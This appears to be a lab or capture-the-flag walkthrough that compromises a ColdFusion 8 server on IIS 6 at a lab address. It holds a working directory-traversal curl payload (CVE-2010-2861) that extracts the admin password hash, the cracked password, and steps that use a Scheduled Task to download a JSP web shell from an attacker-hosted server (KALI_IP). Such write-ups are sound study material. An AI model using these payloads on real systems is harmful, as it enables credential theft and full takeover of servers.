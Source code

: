 # Mike (10.11.1.10)
****
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.10
```

2. `nmap` detects **Microsoft IIS**  web server running on port **80**.
``` 
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

3. We performed directory enumeration and we got a hit on **2** directories called `/cfdocs` and `/cfide`, which are both a referenced to **Adobe ColdFusion**
![[cfide.png]]

> [!info] 
> `CFIDE` stands for **ColdFusion Integrated Development Environment**
>  `CFdocs` is a reference tool for **ColdFusion Markup Language** (CFML)

4. The admin login page shows that it uses **Adobe Coldfusion 8**. So we should look for reported vulnerabilities on that version.
   ![[coldfusion-8.png]]

5. One of the vulnerabilities we found is [**CVE-2010-2861**](https://nvd.nist.gov/vuln/detail/CVE-2010-2861) which is a **Directory Traversal** vulnerability affecting **9.0.1 and lower** versions of Adobe ColdFusion. Using the vulnerability, we were able to extract the password hash from `password.properties` file which can be found on `C:\ColdFusion8\lib` directory.
   
```
curl -s http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en | grep '^password=' | head -1 | awk -F '=' '{print "\nHash: " $2}'
```

![[cf-hash.png]]

6. The hash `AAFDC23870ECBCD3D557B6423A8982134E17927E` has been cracked before that's why we are able to get the plaintext just simply by using Google search. The plaintext is `pass123`
   
   ![[google-hash.png]]

***
## Exploitation
1. Since we already have the admin password, we can now login to [CFIDE Admin Dashboard](http://10.11.1.10/CFIDE/administrator/index.cfm) 
   ![[cfide-dashboard.png]]

2. We we will going to upload a JSP shell by creating a **Scheduled Task**. But first, we need to spawn a simple HTTP server to host our JSP shell. For this task, we can use python's `http.server`
   
``` 
python -m http.server 80
```
> [!note] 
> Make sure to spawn your HTTP server on the same directory where your JSP shell is located

> [!tip] 
> You may use `SimpleHTTPServer`  if you are using `python2`
> `python2 -m SimpleHTTPServer 80`

3. After spawning an HTTP server, we will proceed on creating a **Scheduled Task**. From the admin dashboard navigate to  `Debugging & Logging` > `Scheduled Tasks` then click on the `Schedule New Task` button
   
   ![[debugging-task.png]]
   
4.   Create a Scheduled Task through the following steps:
	* Set the task name to whatever you like
	* Change the URL to the URL of JSP shell (http://KALI_IP/shell.jsp)
	* Check the option to save the output to a file. 
	*  Paste the path `C:\Inetpub\wwwroot\CFIDE\shell.jsp`  into the 'File' field,
	*  Type the name you want to save the shell as and the extension (jsp). 
	*  Press **OK** and click the green check to run the task.

![[new-shell-task.png]]

5. We should now able to access and execute the shell through  `http://10.11.1.10/CFIDE/shell.jsp`
   
```
curl http://10.11.1.10/CFIDE/shell.jsp
```

![[mike-spawn-shell.png]]
***
## Post-exploitation
1. The shell we have is already running as `nt authority\system`, so we will now be able to read the flag.
   
   ![[mike-flag.png]]
